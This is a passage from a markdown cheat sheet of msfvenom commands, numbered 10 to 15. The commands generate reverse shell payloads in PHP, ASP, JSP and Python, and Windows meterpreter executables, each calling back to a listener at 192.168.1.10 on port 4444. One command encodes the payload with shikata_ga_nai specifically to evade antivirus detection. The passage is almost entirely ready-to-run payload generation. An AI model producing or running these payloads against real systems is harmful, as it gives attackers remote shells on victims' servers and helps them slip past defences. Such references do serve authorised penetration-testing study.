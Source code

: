 
### **Web Payloads**

#### 10. PHP Reverse Shell
Generates a PHP reverse shell script:
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.10 LPORT=4444 -f raw > reverse_shell.php
```

#### 11. ASP Reverse Shell
Creates a reverse shell payload in ASP:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f asp > reverse_shell.asp
```

#### 12. JSP Reverse Shell
Generates a reverse shell for Java web servers:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > reverse_shell.jsp
```

---

### **Multi-Platform Payloads**

#### 13. Python Reverse Shell
Generates a Python reverse shell script:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw > reverse_shell.py
```

---

### **Encoders**

#### 14. Encoding the Payload
To evade basic antivirus detection, encode your payload using encoders:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_reverse_shell.exe
```
- `-e`: Specifies the encoder.
- `-i`: Number of iterations for encoding.

---

### **Custom Payload Options**

#### 15. Add Custom Commands
Customize options for better control:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 EXITFUNC=thread -f exe > custom_reverse_shell.exe
```
